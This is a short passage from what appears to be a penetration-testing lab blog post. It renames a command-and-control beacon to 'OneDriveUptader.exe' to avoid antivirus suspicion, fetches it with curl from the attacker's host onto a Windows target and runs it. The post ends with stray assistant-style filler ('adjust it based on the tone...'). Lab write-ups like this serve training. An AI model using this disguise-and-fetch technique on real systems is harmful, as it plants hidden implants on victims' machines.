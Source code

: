     ➜  beacon ls
    beacon.exe
    ➜  beacon mv beacon.exe OneDriveUptader.exe
    ➜  beacon ls
    OneDriveUptader.exe

### beacon

i just changed name as OneDriveUptader.exe cauze maybe some AV programs will suspicious.

    C:\Windows\Tasks>curl http://10.10.14.6/OneDriveUptader.exe -o OneDriveUptader.exe
    curl http://10.10.14.6/OneDriveUptader.exe -o OneDriveUptader.exe
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    100  446k  100  446k    0     0   653k      0 --:--:-- --:--:-- --:--:--  653k

    C:\Windows\Tasks>dir
    dir
    Volume in drive C is Windows 2016
    Volume Serial Number is 4ED8-4501

    Directory of C:\Windows\Tasks

    11/26/2024  07:34 PM    <DIR>          .
    11/26/2024  07:34 PM    <DIR>          ..
    11/26/2024  07:34 PM           456,704 OneDriveUptader.exe
                1 File(s)        456,704 bytes
                2 Dir(s)   7,880,839,168 bytes free

    C:\Windows\Tasks>.\OneDriveUptader.exe
    .\OneDriveUptader.exe

and it will give us beacon;

![img-description](/assets/images/WhatsApp Image 2024-11-27 at 03.37.06.jpeg)

"With the successful acquisition of the beacon, this marks a significant milestone in understanding the core techniques used in modern penetration testing and red team operations—stay tuned for more insights in upcoming posts."

Feel free to adjust it based on the tone and direction of your blog!
